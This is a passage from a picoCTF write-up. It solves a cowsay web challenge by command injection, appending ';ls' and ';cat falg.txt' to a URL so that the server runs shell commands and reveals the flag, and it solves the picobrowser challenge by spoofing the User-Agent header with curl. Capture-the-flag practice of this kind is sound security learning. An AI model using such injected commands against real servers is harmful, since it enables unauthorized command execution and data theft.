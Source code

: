 **Solution**: Just some code injection:

```console
$ curl -s "https://caas.mars.picoctf.net/cowsay/hello;ls"
 _______
< hello >
 -------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
Dockerfile
falg.txt
index.js
node_modules
package.json
public
yarn.lock
```

And then:

```console
$ curl -s "https://caas.mars.picoctf.net/cowsay/hello;cat%20falg.txt"
 _______
< hello >
 -------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}
```

## picobrowser (200 points)

**Description**: This website can be rendered only by **picobrowser**, go and catch the flag! [https://jupiter.challenges.picoctf.org/problem/28921/](https://jupiter.challenges.picoctf.org/problem/28921/) or [http://jupiter.challenges.picoctf.org:28921](http://jupiter.challenges.picoctf.org:28921)

**Solution**: Pay attention to the following line in the page source code:

```html
<div class="jumbotron">
  <p class="lead"></p>
  <p><a href="/flag" class="btn btn-lg btn-success btn-block"> Flag</a></p>
  </div>
```

Issue the command:

```bash
curl -s -H "User-Agent: picobrowser" https://jupiter.challenges.picoctf.org/problem/28921/flag
```
